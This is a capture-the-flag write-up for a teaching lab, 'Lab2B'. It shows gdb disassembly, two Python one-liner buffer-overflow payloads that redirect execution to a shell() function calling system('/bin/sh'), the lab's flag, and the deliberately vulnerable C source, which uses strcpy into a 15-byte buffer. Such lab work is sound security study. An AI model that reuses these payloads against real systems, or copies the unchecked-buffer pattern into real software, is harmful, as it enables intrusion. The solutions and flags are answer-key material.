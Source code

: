 ## Lab2B
1m_all_ab0ut_d4t_b33f
```
gdb-peda$ i functions 
All defined functions:

Non-debugging symbols:
0x08048538  _init
0x08048570  printf@plt
0x08048580  strcpy@plt
0x08048590  system@plt
0x080485a0  __gmon_start__@plt
0x080485b0  __libc_start_main@plt
0x080485c0  _start
0x080485f0  __x86.get_pc_thunk.bx
0x08048600  deregister_tm_clones
0x08048630  register_tm_clones
0x08048670  __do_global_dtors_aux
0x08048690  frame_dummy

0x080486bd  shell

0x080486d0  print_name
0x080486fd  main
0x08048740  __libc_csu_init
0x080487b0  __libc_csu_fini
0x080487b4  _fini

```

```
Dump of assembler code for function print_name:
   0x080486d0 <+0>:     push   ebp
   0x080486d1 <+1>:     mov    ebp,esp
   0x080486d3 <+3>:     sub    esp,0x28
   0x080486d6 <+6>:     mov    eax,DWORD PTR [ebp+0x8]
   0x080486d9 <+9>:     mov    DWORD PTR [esp+0x4],eax
   0x080486dd <+13>:    lea    eax,[ebp-0x17]
   0x080486e0 <+16>:    mov    DWORD PTR [esp],eax
   0x080486e3 <+19>:    call   0x8048580 <strcpy@plt>
   0x080486e8 <+24>:    lea    eax,[ebp-0x17]
   0x080486eb <+27>:    mov    DWORD PTR [esp+0x4],eax
   0x080486ef <+31>:    mov    DWORD PTR [esp],0x80487d8
   0x080486f6 <+38>:    call   0x8048570 <printf@plt>
   0x080486fb <+43>:    leave  
   0x080486fc <+44>:    ret    
End of assembler dump.
```

```
Dump of assembler code for function shell:
   0x080486bd <+0>:     push   ebp
   0x080486be <+1>:     mov    ebp,esp
   0x080486c0 <+3>:     sub    esp,0x18
   0x080486c3 <+6>:     mov    eax,DWORD PTR [ebp+0x8]
   0x080486c6 <+9>:     mov    DWORD PTR [esp],eax
   0x080486c9 <+12>:    call   0x8048590 <system@plt>
   0x080486ce <+17>:    leave  
   0x080486cf <+18>:    ret    
End of assembler dump.
```

First solution I came up with, couldn't figure out why it doesn't work.
`./lab2B $(python -c 'print "A"*19+"\xd0\x97\x04\x08"+ "\x9c\xf6\xff\xbf" + "\xc3\x86\x04\x08"')`

Much simpler, straightforward solution  
`./lab2B $(python -c 'print "A"*27 + "\xbd\x86\x04\x08" + "A"*4 + "\xd0\x97\x04\x08" ')`


**`i_c4ll_wh4t_i_w4nt_n00b`**

***

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/*
 * compiled with:
 * gcc -O0 -fno-stack-protector lab2B.c -o lab2B
 */

char* exec_string = "/bin/sh";

void shell(char* cmd)
{
        system(cmd);
}

void print_name(char* input)
{
        char buf[15];
        strcpy(buf, input);
        printf("Hello %s\n", buf);
}

int main(int argc, char** argv)
{
        if(argc != 2)
        {
                printf("usage:\n%s string\n", argv[0]);
                return EXIT_FAILURE;
        }

        print_name(argv[1]);

        return EXIT_SUCCESS;
}
```
